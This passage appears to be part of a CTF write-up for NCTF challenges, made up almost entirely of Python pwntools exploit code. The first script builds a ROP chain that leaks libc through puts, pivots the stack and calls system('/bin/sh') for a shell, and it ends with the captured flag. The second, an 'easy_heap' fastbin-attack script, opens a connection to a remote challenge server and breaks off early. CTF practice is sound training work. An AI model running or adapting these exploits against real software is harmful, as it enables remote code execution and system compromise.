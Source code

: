 ```
    payload+= p64(fun_addr)
    payload+= p64(arg1)
    payload+= p64(arg2)
    payload+= p64(arg3)
    payload+= p64(part2)
    payload+= 'a'*0x38
    return payload

p_rdi = base + 0xba3
p_rbp = base + 0x900
p.recvuntil('your name?\n')
payload = p64(target)
payload+= p64(p_rdi)
payload+= p64(P.got['puts']+base)
payload+= p64(P.plt['puts']+base)
payload+= call_fun(P.got['read']+base,0x100,base+0x201500,0)
payload+= p64(p_rbp)
payload+= p64(base+0x201500)
payload+= p64(leave)
p.send(payload)

libcbase = u64(p.recv(6).ljust(8,'\x00')) - libc.sym['puts']
log.success('libcbase = '+hex(libcbase))

payload = p64(base+0x201500)
payload+= p64(p_rdi)
payload+= p64(libcbase+libc.search('/bin/sh\x00').next())
payload+= p64(libcbase+libc.sym['system'])
p.send(payload)

#NCTF{rop_1s_b4st!!!!}
if attach == 1:
	gdb.attach(p)
p.interactive()
```
### easy_heap
两次fb_atk
```
#coding:utf-8

from pwn import *

path = './easy_heap'
local = 1
attach = 0
#P = ELF(path)
context(os='linux',arch='amd64',terminal=['terminator','-x','sh','-c'])
context.log_level = 'debug'

if local == 0:
	p = process(path)
	if context.arch == 'amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('139.129.76.65',50001)
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def new(size,content):
	p.recvuntil('4. exit\n')
	p.sendline('1')
```